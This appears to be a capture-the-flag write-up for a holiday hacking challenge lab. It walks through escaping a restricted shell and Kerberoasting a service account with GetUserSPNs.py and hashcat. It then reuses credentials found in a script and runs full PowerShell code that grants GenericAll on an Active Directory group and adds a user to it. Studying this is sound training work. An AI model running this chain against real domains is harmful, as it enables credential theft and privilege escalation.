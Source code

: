 <h1 id="objective-8-kerberoasting-on-an-open-fire">Objective 8: Kerberoasting on an Open Fire</h1>
<p><strong>Location: Staging</strong><br>
<strong>Elf: Jingle Ringford</strong><br>
<strong>Hints provided by Eve Snowshoes after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md">HoHo … No</a></strong></p>
<p>The objective to obtain a secret research document.<br>
In order to get an account in the ELFU AD domain, a registration on <a href="https://register.elfu.org">https://register.elfu.org</a> is required.<br>
After that an individual username and password is provided which can be used to logon to <a href="http://grades.elfu.org">grades.elfu.org</a> using SSH on port 2222.</p>
<h3 id="escaping-application">Escaping Application</h3>
<p>After the SSH login an application is automatically started.<br>
It is possible to escape this application by sending an EOF (CTRL-D).</p>
<h3 id="escaping-python-shell">Escaping Python Shell</h3>
<p>After this a Python shell is displayed.<br>
In order to escape this <code>os.system.("bash")</code> has to be submitted in order to get to a normal Unix shell.</p>
<h3 id="reconnaissance">Reconnaissance</h3>
<p>An nmap scan of the network 10.128.0.0/22 two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares <code>elfu_svc_shr</code> and <code>research_dep</code>.</p>
<h3 id="pulling-data-from-ad">Pulling data from AD</h3>
<p>Next the tool <code>ldapdomaindump</code> can be used in order to get an idea of the user&lt;-&gt;group&lt;-&gt;permission structure:</p>
<pre><code>ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
</code></pre>
<p>This can be done manually or using Bloodhound.<br>
Bloodhound also reveals that the user <code>elfu_svc</code> is Kerberoastable.</p>
<p>The password hash for this Kerberoastable user can be obtained by running</p>
<pre><code>GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
</code></pre>
<h3 id="cracking-the-password">Cracking the Password</h3>
<p>We follow the hints and prepare the password cracking as follows:<br>
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:</p>
<pre><code>./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
</code></pre>
<p>In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:</p>
<pre><code>curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
</code></pre>
<p>Equipped with these tool, we can let Hashcat crack the password:</p>
<pre><code>hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
</code></pre>
<p>Hashcat find the password for <code>elfu_svc</code> to be <code>Snow2021!</code>.</p>
<h3 id="access-to-elfu_svc_shr">Access to elfu_svc_shr</h3>
<p>With this information we can get access to the elfu_svc_shr file share in 10.128.3.30:</p>
<pre><code>smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
</code></pre>
<p>On this share are several Powershell scripts. One of them, <code>GetProcessInfo.ps1</code> holds credentials for the <code>user remote_elf</code>:</p>
<pre><code>$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
</code></pre>
<h3 id="getting-into-group-research-department">Getting into group Research Department</h3>
<p>With the <code>remote_elf</code> credential snippet from the script, we can grant our windows domain user the <code>GenericAll</code> permissions for the group Research Department:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "{userid}"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
</code></pre>
<p>and add then our user to this group:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ptsuxvdegy"
$password = "Scumpfccr#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://&lt;SID=$hexSID&gt;")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

} -Credential $aCred -Authentication Negotiate
</code></pre>
<h3 id="access-to-research_dep-share">Access to research_dep share</h3>
<p>After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:</p>
<pre><code>smbclient '\\10.128.3.30\research_dep'
smb: \&gt; dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available

</code></pre>
<p>The <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf">PDF document</a> lists <strong>Kindness</strong> as first secret ingredient for a wonderful holiday season.</p>
<h3 id="bonus-kerberoboting">Bonus: Kerberoboting</h3>
<p>This whole process was automated in an <code>expect</code> script named <code>kerberoboting</code>, so that you can enjoy a brew whilst your computer does the work.<br>
It just requires you to register at <a href="https://register.elfu.org">https://register.elfu.org</a>, have <code>hashcat</code> installed in the PATH and a working CeWL in the local directory:</p>
<pre><code>joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using &lt;EOF&gt;
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\&gt; Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine
#
# Have fun and explore more
#

jsfdgdsjjl@grades:~$ 
</code></pre>
<p><strong>Achievement: Kerberoasting on an Open Fire</strong></p>

